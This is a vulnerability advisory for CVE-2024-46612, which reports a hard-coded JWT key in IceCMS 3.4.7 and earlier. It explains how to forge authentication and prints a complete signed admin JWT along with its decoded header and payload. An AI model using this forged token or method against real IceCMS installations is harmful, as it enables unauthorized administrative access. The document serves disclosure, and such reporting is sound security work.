 
**[CVE-ID]**

CVE-2024-46612

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

Use of Hard-coded Credentials

**[Description]**

IceCMS v3.4.7 was discovered to contain a hardcoded JWT key, allowing an attacker to forge JWT authentication information.
 
JwtUtil.java

![pic1](/icecms/PIC/CVE-2024-46612-1.png)


Attackers can construct their own jwt authentication headers and edit them online through https://jwt.io/.
The "exp" is a timestamp.
```
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "username": "admin",
  "role": "admin",
  "sub": "3",
  "exp": 1727622963,
  "jti": ""
}
```
This is the jwt authentication information for the admin user:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwic3ViIjoiMyIsImV4cCI6MTcyNzYyMjk2MywianRpIjoiIn0.
bTps5cbUkX61R9aJAWgRrd57Ctsh8Uoo1VcJNJUOv-8
```
This is the forged jwt authentication information. When knowing the jwt key, it is exactly the same.
![pic2](/icecms/PIC/CVE-2024-46612-2.png)
